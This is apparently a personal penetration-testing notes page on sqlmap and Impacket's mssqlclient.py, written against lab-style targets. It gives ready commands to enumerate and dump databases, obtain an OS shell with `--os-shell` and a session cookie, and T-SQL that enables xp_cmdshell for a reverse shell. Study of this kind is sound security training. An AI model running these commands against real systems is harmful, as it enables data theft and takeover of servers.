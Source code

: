 ## SQLmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL  injection flaws. SQLmap automates the process of detecting and exploiting SQL  injection. SQL Injection attacks can take control of databases that utilize SQL.

If we needed authentication to access to the web we will need to add the cookies value to the command. For doing that we can use Cookie-Editor, explained in [[Useful Resources]].

#### Example 1

We can use *sqlmap* specifying the target url:

| Option                    | Description                                                                                                                       |
|---------------------------|-----------------------------------------------------------------------------------------------------------------------------------|
| `-u`                       | Specifies the target URL to be tested for SQL injection vulnerabilities. Example: `http://192.168.1.102/administrator`.          |
| `--batch`                  | Runs sqlmap in batch mode, performing operations automatically without prompting for user input.                                  |
| `--dbs`                    | Instructs sqlmap to enumerate the available databases on the database server.                                                     |
| `--tables`                 | Instructs sqlmap to enumerate the available tables in the selected database.                                                      |
| `--level (1-5, default 1)` | Defines the scope of vectors and boundaries used for injection. Higher levels involve more obscure techniques with lower success. **Levels:** 1 (default): Basic tests, minimal impact. 2: Extends tests to more techniques, might cause some disruption. 3: More advanced techniques, higher chance of impacting the target. 4-5: Highly specific and risky techniques, use with caution. |
| `--risk (1-3, default 1)`  | Controls the types of exploit vectors based on their potential risk. **Levels:** 1 (default): Low-risk techniques, unlikely to cause harm. 2: Includes techniques with moderate risk of data loss or denial-of-service. 3: Attempts all techniques, including disruptive or data-altering ones (use responsibly). |


```bash
sqlmap -u http://192.168.1.102/administrator --forms --dbs --batch
```

After using this command the available databases will be printed, then you can enumerate  the tables stored in each database:

```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> --tables --batch
```

Once you have introduced this command, the available columns in the database will be printed. Now to find the content of the columns you need to use the following command:
```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> --columns --batch
```

Finally, you can print the columns information using:
```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> -C <parameter1>,<parameter2><parameter3> --dump --batch	
```

#### Example 2	
For a most exhaustive analysis, we can save the vulnerable request with _save item_ in Burp Suite. The field in which the insertion will be made in this example is **id**, previously investigated in Burp Suite.

| Option               | Description                                                                                                                                     |
| -------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------- |
| `-r pc`              | Specifies the file that contains the saved HTTP request, named "pc" in this case. It will be used as input for sqlmap.                          |
| `-p id`              | Indicates the name of the URL or body parameter in the HTTP request to be tested for SQL injection. Example: `id`.                              |
| `--dbs`              | Instructs sqlmap to enumerate the available databases on the database server.                                                                   |
| `--tables`           | Instructs sqlmap to enumerate the available tables in the selected database.                                                                    |
| `--technique U`      | Specifies the SQL injection techniques to be tested. Options: **U**:UNION query-based, **B**: Blind, **E**: Error-based,**T**: Time-based blind |
| `-D SQLite_masterdb` | Specifies the name of the database where operations will be performed. Example: `SQLite_masterdb`.                                              |
| `-T accounts`        | Specifies the name of the table on which operations will be performed. Example: `accounts`.                                                     |
| `--columns`          | Instructs sqlmap to enumerate the available columns in the specified table.                                                                     |
| `--batch`            | Runs sqlmap in batch mode, performing the operations automatically without prompting for user input.                                            |
| `--threads 5`        | Specifies the number of threads sqlmap will use simultaneously. Example: 5 threads.                                                             |
| `--dump`             | Extracts the data from the specified table and displays it as output.                                                                           |

- Find databases:
```bash
sqlmap -r pc -p id --dbs --technique=U	
```
- Find tables in a specific database:	
```bash
sqlmap -r pc -p id -D <database_name> --tables --technique=U
```
- Find columns in a specific table:
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --columns --technique=U 
```
- Dump columns content
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --dump --columns "<column1_name>,<column2_name>,<column3_name>" --technique=U
```

#### Exemple 3
| Option       | Description                                                                                                                                                       |
| ------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-u`         | Specifies the target URL to be tested for SQL injection vulnerabilities. Example: `http://10.129.95.174/dashboard.php?search=any+query`                           |
| `--cookie`   | Sets the cookie value for the HTTP request. Cookies maintain session information. Example: `PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1`                                 |
| `--os-shell` | Attempts to obtain an operating system shell on the vulnerable server if SQL injection is successful. This provides direct interaction with the operating system. |

```bash
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell
```
## mssqlclient.py 
mssqlclient.py is a script from the Impacket class collection. When mssqlclient.py is executed, a connection is established with the specified SQL Server and it allows interaction through a command-line interface.

- `windows-auth`: This flag is specified to use Windows Authentication.
- `ARCHETYPE/sql_svc`: Server ID (previously found).
````bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
````

In case `xp_cmdshell` is not enabled (which is the command we will use for a reverse shell), perform the following steps:
````bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

````

